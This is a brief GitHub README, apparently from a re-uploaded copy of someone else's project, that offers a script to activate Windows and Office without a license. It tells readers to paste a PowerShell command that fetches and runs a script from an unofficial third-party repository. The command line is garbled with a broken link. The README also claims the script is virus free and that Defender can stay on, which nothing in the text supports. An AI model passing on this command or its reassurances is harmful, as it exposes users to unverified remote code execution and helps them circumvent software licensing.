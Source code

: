 # microsoft-activation
You can used this script for activating Windows and Microsoft Office
Method 1 - PowerShell (Windows 8 and later)
1. Open PowerShell (Not CMD). To do that, right-click on the Windows start menu and select PowerShell or Terminal.
2. Copy and paste the code below and press enter
   irm https://get.activated.win](https://raw.githubusercontent.com/Codingwithm-cloud/microsoft-activation/refs/heads/main/MAS_AIO.cmd | iex

4. You will see the activation options. Choose (1) HWID for Windows activation. Choose (2) Ohook for Office activation.
5. That's all.
More options

Now your Windows or Office si activate
This script is totally virus free
You do not need to turn off windows defender

i didn't own this script credit goes to respected owner pf this script :-
@massgravel
https://github.com/massgravel
